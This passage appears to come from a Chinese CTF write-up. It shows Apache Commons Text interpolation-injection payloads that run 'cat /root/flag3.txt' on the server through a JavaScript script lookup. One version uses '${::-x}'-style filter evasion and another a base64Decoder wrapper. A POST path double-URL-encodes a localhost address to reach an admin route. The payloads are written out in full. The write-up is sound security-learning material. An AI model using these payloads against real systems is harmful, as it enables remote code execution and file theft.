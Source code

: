 type=CommonsText&value=${sc${::-r}ipt:jav${::-as}cript:new%20ja${::-v}a.io.BufferedReader(new%20ja${::-v}a.io.InputStreamReader(ja${::-v}a.lang.Runtime.getRuntime().e${::-x}ec('cat%20/root/flag3.txt').getInputStream(),'UTF-8')).readLine();}

2、使用Base64解码绕过

(POST) /admin/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30%25%32%66%25%36%32%25%36%66%25%36%65%25%37%35%25%37%33

type=CommonsText&value=${base64Decoder:JHtzY3JpcHQ6amF2YXNjcmlwdDpuZXcgamF2YS5pby5CdWZmZXJlZFJlYWRlcihuZXcgamF2YS5pby5JbnB1dFN0cmVhbVJlYWRlcihqYXZhLmxhbmcuUnVudGltZS5nZXRSdW50aW1lKCkuZXhlYygnY2F0IC9yb290L2ZsYWczLnR4dCcpLmdldElucHV0U3RyZWFtKCksICJVVEYtOCIpKS5yZWFkTGluZSgpO30=}

成功获取到 `flag3`

![image-20221126003745726](assets/image-20221126003745726.png)

![image-20221126003749727](assets/image-20221126003749727.png)

## 命题花絮（xmcp）
